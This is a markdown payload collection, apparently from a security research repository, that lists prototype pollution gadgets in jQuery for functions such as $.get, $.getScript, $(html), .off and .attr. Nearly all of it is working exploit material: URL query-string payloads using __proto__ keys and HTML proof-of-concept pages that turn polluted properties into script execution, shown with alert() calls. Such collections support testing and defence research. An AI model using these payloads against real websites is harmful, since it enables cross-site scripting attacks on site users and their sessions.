 ## jQuery 

URL: https://jquery.com/

### JS Fingerprint
```
return (typeof $ !== 'undefined' && typeof $.fn !== 'undefined' && typeof $.fn.jquery !== 'undefined')
```

### PoC

#### $(x).off jQuery all versions

* Can be exploited through String.prototype

```
?__proto__[preventDefault]=x&__proto__[handleObj]=x&__proto__[delegateTarget]=<img/src/onerror%3dalert(document.domain)>
```

```html
<script/src=https://code.jquery.com/jquery-3.3.1.js></script>
<script>
  Object.prototype.preventDefault='x'
  Object.prototype.handleObj='x'
  Object.prototype.delegateTarget='<img/src/onerror=alert(1)>'
  /* No extra code needed for jQuery 1 & 2 */
  $(document).off('foobar');
</script>
```

#### $(html) jQuery all versions

```
?__proto__[div][0]=1&__proto__[div][1]=<img src onerror%3dalert(1)>
```

```html
<script/src=https://code.jquery.com/jquery-3.3.1.js></script>
<script>
  Object.prototype.div=['1','<img src onerror=alert(1)>']
</script>
<script>
  $('<div x="x"></div>')
</script>
```

#### $.get jQuery >= 3.0.0

* Also can be used for $.post, $.ajax, $.getJSON
* Can be exploited through Boolean.prototype

```
?__proto__[url][]=data:,alert(1)//&__proto__[dataType]=script
```

```html
<script src=https://code.jquery.com/jquery-3.5.1.js></script>
<script> 
  Object.prototype.url = ['data:,alert(1)//'];   
  Object.prototype.dataType = 'script';
</script>      
<script>
  $.get('https://google.com/'); 
  $.post('https://google.com/'); 
</script>
```

#### $.getScript jQuery >= 3.4.0
```
?__proto__[src][]=data:,alert(1)//
```

```html
<script src=https://code.jquery.com/jquery-3.5.1.js></script>
<script>
  Object.prototype.src = ['data:,alert(1)//']
</script>
<script>
  $.getScript('https://google.com/')
</script>
```

#### $.getScript jQuery 3.0.0 - 3.3.1

* Can be exploited through Boolean.prototype

```
?__proto__[url]=data:,alert(1)//
```

```html
<script/src=https://code.jquery.com/jquery-3.3.1.js></script>
<script>
  Object.prototype.url = 'data:,alert(1)//'
</script>
<script>
  $.getScript('https://google.com/')
</script>
```

#### $.get jQuery all versions

```
?__proto__[context]=<img/src/onerror%3dalert(1)>&__proto__[jquery]=x
```

```html
<script src=https://cdnjs.cloudflare.com/ajax/libs/jquery/1.10.0/jquery.js></script>
<script> 
  Object.prototype.context = '<img/src/onerror=alert(1)>';
  Object.prototype.jquery = 'x';
</script>      
<script>
  jQuery.get('http://google.com/');
</script>
```

#### $.get jQuery >= 3.0.0

* Can be exploited through Boolean.prototype

```
?__proto__[url]=data:,alert(1)//&__proto__[dataType]=script&__proto__[crossDomain]=
```

```html
<script src=https://cdnjs.cloudflare.com/ajax/libs/jquery/3.6.0/jquery.js></script>
<script> 
  Object.prototype.url = 'data:,alert(1)//';
  Object.prototype.dataType = 'script';   
  Object.prototype.crossDomain = '';
</script>      
<script>
  $.get('http://google.com/'); 
  $.post('http://google.com/'); 
</script>
```

### $(x).attr jQuery >= 1.8.0

* Can be exploited through String.prototype
* Sets the attribute of an element

```
?__proto__[OnError]=alert(1)&__proto__[SRC]=fakeimagewontload
```

```html
<img id="test" src=realimage.jpg>
<script src=https://cdnjs.cloudflare.com/ajax/libs/jquery/3.6.0/jquery.js></script>
<script>
  Object.prototype.OnError = 'alert(1)';
  Object.prototype.SRC = 'fakeimagewontload.jpg';
</script>
<script>
$('#test').attr({"width":"100%"}) // The {} is being polluted with extra attributes
</script>
```

